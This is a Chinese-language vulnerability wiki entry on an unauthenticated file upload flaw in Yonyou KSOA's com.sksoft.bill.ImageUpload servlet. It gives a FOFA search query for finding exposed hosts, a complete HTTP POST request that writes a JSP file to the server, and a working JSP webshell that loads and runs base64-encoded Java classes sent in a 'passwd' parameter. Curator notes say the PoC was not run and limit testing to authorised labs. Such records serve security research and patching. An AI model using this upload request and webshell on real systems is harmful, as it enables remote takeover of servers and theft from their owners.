


# 用友时空KSOA ImageUpload上传

> 指纹字段校订（2026-10-04）：按原归档正文的明确平台标签及完整表达式恢复当前查询，旧误填或截取字段逐字保存在 `previous_*`；后文对此旧字段的诊断按当前字段阅读。仅经过本库保守语法与原字面核对，未在线运行查询，不把指纹命中视为漏洞存在。

## 条目说明

- 对象与具体问题：用友时空KSOA；ImageUpload上传
- 版本、配置及部署条件：9.0声明
- 认证与权限前提：称未登录但有session需说明
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 同72，FOFA元数据误取Referer的.info/，正文查询完整
- your-payload占位非可执行PoC且长度1不符；后附通用classloader另为载荷
- 缺组件build/修复/响应文本，上传与执行条件分开

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

用友时空 KSOA 是用友网络科技股份有限公司建立在 SOA 理念指导下研发的新一代产品，其中 com.sksoft.bill.ImageUpload 存在前台文件上传漏洞，攻击者可以在不登陆的情况下上传恶意 Webshell，控制系统权限。

### 网络测绘

```
app="用友-时空KSOA"
```

### 漏洞复现

登录界面：




漏洞 URL：

```
/servlet/com.sksoft.bill.ImageUpload?filepath=/&filename=
```

发送数据包：

```http
POST /servlet/com.sksoft.bill.ImageUpload?filepath=/&filename=1.jsp HTTP/1.1
Host: your-ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: https://en.fofa.info/
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: JSESSIONID=825A011F31259CCA1649D5DF4849635E
Connection: close
Content-Length: 1

<%!
your-payload
%>
```

> 请求长度说明：原资料 Content-Length 为 1；保留原始标头；其数值未据实际请求体重新计算或验证。




访问 /pictures/1.jsp 即可。

#### Webshell

密码：passwd

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
